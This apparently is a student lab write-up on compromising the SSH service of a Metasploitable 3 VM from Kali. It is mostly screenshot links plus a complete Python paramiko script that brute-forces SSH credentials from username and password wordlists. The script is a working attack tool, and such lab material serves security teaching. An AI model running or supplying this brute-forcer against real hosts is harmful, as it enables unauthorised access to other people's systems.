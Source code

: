 # Phase 1: Setup and Compromise the Service
## Downloading and Importing Metasploitable 3 VM (the Victim environment):
![Screenshot 2025-04-26 194716](https://github.com/user-attachments/assets/6eb215a9-2c85-42b9-87cc-88133d73b8c1)

## Checking the connectivity between the attacker(kali) and the victim:
![Screenshot 2025-04-27 211734](https://github.com/user-attachments/assets/496e6b54-4a39-47a7-9e20-faae575623e2)
![Screenshot 2025-04-27 212646](https://github.com/user-attachments/assets/5e052f8c-2ace-4b61-b039-d71a933f0834)

## Setting up metasploit framework in the kali VM:
![Screenshot 2025-04-27 191041](https://github.com/user-attachments/assets/7015f966-f7bb-4857-9a44-9d6ca4e8ebaa)
 
## Task1.1: 
We choosed SSH service to compromise.

![Screenshot 2025-04-27 222648](https://github.com/user-attachments/assets/a77cc2c4-83fe-40f1-9f71-1d0a8cb5c31b)


## Task1.2: Custom script for compromising the SSH service :
import paramiko

#Target Information

target_ip = "192.168.8.36"

target_port = 22


#Files containing usernames and passwords

user_file_path = "user_file.txt"

pass_file_path = "pass_file.txt"


#Setup the SSH client

ssh_client = paramiko.SSHClient()

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())


#Read usernames and passwords from files

with open(user_file_path, "r") as uf:

    usernames = [line.strip() for line in uf if line.strip()]
    

with open(pass_file_path, "r") as pf:

    passwords = [line.strip() for line in pf if line.strip()]
    

#Try all combinations

for username in usernames:

    for password in passwords:
    
        try:
        
            print(f"[*] Trying {username}:{password}")
            
            ssh_client.connect(hostname=target_ip, port=target_port, username=username, password=password, timeout=5)
            
            print(f"[+] Success! Credentials found: {username}:{password}")
            
            ssh_client.close()
            
            exit()
            
        except paramiko.AuthenticationException:
        
            print(f"[-] Failed login: {username}:{password}")
            
        except Exception as e:
        
            print(f"[!] Connection error: {e}")
            

print("[-] No valid credentials found.")


Proof of Concept:

![Screenshot 2025-04-27 223238](https://github.com/user-attachments/assets/2fd540b2-2eab-46cc-819f-dd568370a04a)

![Screenshot 2025-04-27 223258](https://github.com/user-attachments/assets/87715ffd-6527-40ba-8160-f0ba35fec694)

it tried all possible combinations, we took screenshots for the commands and when it found the correct credentials


